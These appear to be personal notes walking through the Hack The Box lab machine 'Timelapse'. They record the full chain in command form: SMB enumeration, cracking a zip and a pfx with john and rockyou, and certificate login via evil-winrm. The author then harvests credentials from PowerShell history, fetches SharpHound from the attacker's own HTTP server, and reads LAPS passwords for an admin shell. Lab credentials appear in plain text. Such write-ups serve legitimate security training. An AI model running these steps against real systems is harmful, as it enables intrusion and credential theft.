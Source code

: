 `sudo nmap -sC -sV -oA nmap/timelapse 10.10.11.152`
`-sC for default scripts`
`-sV for enumerate all versions`
`-oA output all formats`

![[timelapse-nmap-scan.png]]
Notice host name is timelapse.htb -> add to `/etc/hosts`

Get domain name with #crackmapexec 
`crackmapexec smb 10.10.11.152`

![[Pasted image 20241222230651.png]]
name: DC01 -> add to `/etc/hosts` as well

![[timelapse-etc-hosts.png]]
Potentially dump users with crackmapexec (fail)

`crackmapexec smb 10.10.11.152 --users`

![[cme-dump-users-cmd.png]]
Potentially dump users & shares with crackmapexec (fail)

`crackmapexec smb 10.10.11.152 --shares --users`

![[dump-users-shares-cme-cmd.png]]

Potentially dump users & shares with crackmapexec w/ null authentication (fail)

`crackmapexec smb 10.10.11.152 -u '' -p '' --shares --users`

![[cme-cmd-null-authentication.png]]
Use #smbclient to list shares

**Remember to always try to enumerate things with two different tools to avoid missing stuff**

`smbclient -L //10.10.11.152/`

![[smbclient to list shares.png]]
/Shares is unique so let's enumerate that.

`smbclient //10.10.11.152/Shares`

Annd there is stuff in here. 

![[stuff-in-smb-shares-dir.png]]
`ls Dev/` to view contents of Dev folder and see `winrm_backup.zip` file

![[winrm-backup.zip.png]]

Download this file with `get Dev\winrm_backup.zip`

![[Pasted image 20241223203502.png]]

View contents of HelpDesk folder as well with `ls HelpDesk\`

![[Pasted image 20241223203556.png]]
Download these `LAPS` files which are standard Microsoft things. 

Running #exiftool on LAPS_OperationGuide.docx to try to grab a username. Nothing there. 

![[Pasted image 20241223203831.png]]
Run #exiftool on all documents and grep for user, name subsequently. 

`exiftool *.docx | grep -i user` (nothing)

![[Pasted image 20241223204044.png]]

`exiftool *.docx | grep -i name`

![[Pasted image 20241223204026.png]]
No username. 

Moving on to the `winrm_backup.zip`

Try to unzip with `unzip Dev\\winrm_backup.zip`

It is password protected. 

![[Pasted image 20241223204316.png]]
#johntheripper

Run #zip2john to convert the zip file to a hash for cracking basically. 

`./zip2john ~/Dev\\winrm_backup.zip >> /root/winrm_backup.hash`

![[zip2john-cmd.png]]

Now execute #john against this hash file with the `rockyou.txt` wordlist. 

`./john /root/winrm_backup.hash --wordlist==/opt/wordlist/rockyou.txt`

Password cracked as `supremelegacy`

![[john-output.png]]
Now use this password to unzip the file. 

`unzip Dev\\winrm_backup.zip`

Now we have a .pfx file which is a group of certificates 

![[zip-contents.png]]
View info in this `.pfx` file with #openssl 

`openssl pkcs12 -in legacyy_dev_auth.pfx -info`

Error message when prompted for password. 

![[openssl-cmd.png]]
Try cracking this password as well with #pfx2john 

`./pfx2john.py ~/legacyy_dev_auth.pfx >>~/legacyy_dev_auth.pfx.hash`

Now crack this hash with #john 

`./john ~/legacyy_dev_auth.pfx.hash --wordlist=/opt/wordlist/rockyou.txt

Password cracked as `thuglegacy`

![[Pasted image 20241223210005.png]]
Try to view the certificate again 

`openssl pkcs12 -in legacyy_dev_auth.pfx -info`

Enter `thuglegacy` when prompted

This is a Microsoft Software Key Storage Provider. 

We get the certificate and private key. 

Cert:
![[Pasted image 20241223210227.png]]
Extract these using #openssl to avoid any whitespace issues. 

Get the private key:
`openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes`

![[Pasted image 20241223210433.png]]

Get the cert:
`openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert`

![[Pasted image 20241223210632.png]]
Now we can use #evilwinrm 

but wait.. are the `winrm` ports even open?
Check with nmap
`sudo nmap -p5985-5986 10.10.11.152`

![[winrm-nmap-port-scan.png]]
Port 5986 is open which is #winrm with #ssl

`evil-winrm -S -i 10.10.11.152 -c key.cert -k key.pem`

Logged innnn.

![[login with private key and cert - winrm.png]]
`gci -force .` will show hidden files. 

Good to check PowerShell's #psreadline file for a privilege escalation vector. This is like PowerShell console host history

Full path is `C:\Users\legacyy\APPDATA\roaming\microsoft\windows\powershell\psreadline`

`dir`

Notice the `ConsoleHost_history.txt`

![[PS cmd history.png]]
Viewing contents of this file 

![[console-history-file.png]]
We get username: `svc_deploy` and password: `E3R$Q62^12p7PLlC%KWaxuaV`

Going back to #crackmapexec 

`crackmapexec smb 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'`

it does not say pw3ned!

![[cme-not-pwn3d.png]]

Then try authenticating using #evilwinrm 

`evil-winrm -S -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'`

![[evil-winrm-login.png]]
Enumerating with 

`gci -force .` to look for hidden files 
![[gci -force.png]]

Checking powershell history again but there is no powershell directory 

![[Pasted image 20241223224626.png]]
it is active directory, so maybe run #Bloodhound 

Download fresh SharpCollection #sharphound 

Serve it up with #pythonhttpserver 
`python3 -m http.server`

Download it with
`cd \programdata`
`curl 10.10.14.8:8000 /SharpHound.exe -o SharpHound.exe`

Execute it with `.\SharpHound.exe`

Windows Defender blocked it. 

Search for `bloodhound.py ingestor`

https://github.com/dirkjanm/BloodHound.py

Download this file. 

Running from Parrot box:

![[Pasted image 20241223230635.png]]
But....DNS operation is timing out. 

Trying manual enumeration.. 

`net user svc_deploy`

![[net user output.png]]

We're in the LAPS Readers group which can read LAPS passwords.

Running this `Get-ADComputer` command to get passwords
![[get-adcomputer.png]]

Here is a password for the local admin on the box:

`tZ+6(79c) ) ) oPW-#8J26]HV7`

![[Pasted image 20241223231413.png]]

Logging in with #evilwinrm as admin

![[admin-shell.png]]

Can also get the LAPS password using this python script

https://github.com/n00py/LAPSDumper


![[laps.py.png]]

